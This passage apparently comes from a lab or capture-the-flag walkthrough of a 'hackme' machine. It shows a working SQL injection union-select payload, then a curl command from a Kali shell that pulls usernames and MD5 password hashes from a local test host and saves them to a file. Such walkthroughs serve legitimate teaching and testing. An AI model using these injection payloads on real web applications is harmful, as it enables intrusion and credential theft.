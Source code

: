 ![](/assets/images/hackme/screenshot-14.png)

Retrieving the records from the table **users**.

`' and 1=2 union select concat_ws(':',user,pasword),2,3 from users #`

![](/assets/images/hackme/screenshot-15.png)

I saved the credentials into a file for easy use later.

```console
root@kali:~$ curl -sL -b "PHPSESSID=tgq6veet5bs049gijo8pblgo3o" "http://192.168.179.186/welcome.php" --data "search='+and+1=2+union+select+concat_ws(':',user,pasword),2,3+from+users+#" | grep 'SGD' | sed 's/<td>/\n/g' | grep -Pv '^[\d\s]' | sed 's/\(.*\)<.*/\1/' | tee creds.txt 
user1:5d41402abc4b2a76b9719d911017c592
user2:6269c4f71a55b24bad0f0267d9be5508
user3:0f359740bd1cda994f8b55330c86d845
test:05a671c66aefea124cc08b76ea6d30bb
superadmin:2386acb2cf356944177746fc92523983
test1:05a671c66aefea124cc08b76ea6d30bb
admin:5f4dcc3b5aa765d61d8327deb882cf99
root@kali:~$
```
